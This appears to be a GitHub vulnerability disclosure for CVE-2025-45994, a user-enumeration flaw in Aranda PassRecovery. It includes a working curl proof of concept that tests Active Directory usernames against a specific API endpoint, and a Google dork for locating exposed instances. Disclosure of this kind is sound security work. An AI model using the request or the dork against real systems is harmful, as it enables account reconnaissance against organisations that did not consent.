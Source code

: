 # *CVE-2025-45994: Enumeration users Active Directory in Aranda PassRecovery*

## Description
An issue in Aranda PassRecovery allows attackers to enumerate  
valid user accounts in Active Directory via sending a crafted POST  
request to /user/existdirectory/1.


## PoC
> 1.- To exploit the vulnerability, you must send a POST request with the Active Directory user to the endpoint: /APRAPI//api/v1/user/existdirectory/1 and it will respond whether it is valid or not.

```bash
curl -XPOST \
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.3124.83' \
-d '"<user>"' -H 'Content-Type: application/json' -i https://<domain>/APRAPI//api/v1/user/existdirectory/1
```

## Google Dorking:
```
"Aranda PassRecovery" intext:"Aranda PassRecovery" -site:.arandasoft.com
```


## Vulnerability Type 
> User Enumeration - CWE 200


## Vendor of Product
> Aranda Software - [https://arandasoft.com](https://arandasoft.com/)


## Affected Product Code Base
> Aranda PassRecovery - Version Unknown

> URL: https://web.archive.org/web/20250520233313/https://arandasoft.com/productos/service-management/password-recovery/
